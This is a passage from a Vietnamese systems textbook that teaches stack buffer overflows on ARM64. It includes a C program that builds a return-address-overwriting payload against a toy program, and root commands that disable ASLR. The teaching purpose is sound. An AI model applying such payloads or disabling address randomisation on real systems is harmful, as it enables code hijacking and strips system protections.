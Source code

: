 **Hình 4.** Một chuỗi mẫu có thể buộc `secret` thực thi hàm `endGame`

Về cơ bản, chuỗi này gồm 32 byte dữ liệu rác, theo sau là **return address**. Một lần nữa, vì ARM64 theo mặc định là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte trong **return address** sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình dưới đây minh họa cách một kẻ tấn công có thể tạo ra *exploit* này:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x00\x00" /*last 2 bytes of junk*/
"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```


Ký tự `\x` trước mỗi số cho biết số đó được định dạng dưới dạng biểu diễn **hexadecimal** (thập lục phân) của một ký tự. Sau khi định nghĩa `ebuff[]`, hàm `main` chỉ đơn giản in nó ra, từng ký tự một.  
Để tạo ra chuỗi byte tương ứng, hãy biên dịch và chạy chương trình này như sau:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

Để dùng `exploit` làm đầu vào cho `scanf`, chỉ cần chạy `secret` với `exploit`.  
Để exploit hoạt động trên Raspberry Pi, hãy nhập các lệnh sau với quyền **root** (chúng ta sẽ giải thích sau ví dụ):

```
$ sudo su
[sudo] password for pi:
root@pi# echo "0" > /proc/sys/kernel/randomize_va_space
root@pi# exit
$
```

Lệnh `sudo su` đưa bạn vào chế độ **root** trên Raspberry Pi. Khi được yêu cầu nhập mật khẩu, hãy nhập mật khẩu của bạn (giả sử bạn có quyền root trên Raspberry Pi). Ngay khi nhập mật khẩu, các lệnh tiếp theo sẽ được gõ ở chế độ root. Lưu ý rằng dấu nhắc lệnh sẽ thay đổi khi ở chế độ root (trông như `root@pi#`).

Lệnh `echo` sẽ ghi đè nội dung của file `/proc/sys/kernel/randomize_va_space` bằng giá trị `0`. Tiếp theo, lệnh `exit` đưa bạn trở lại chế độ người dùng bình thường.

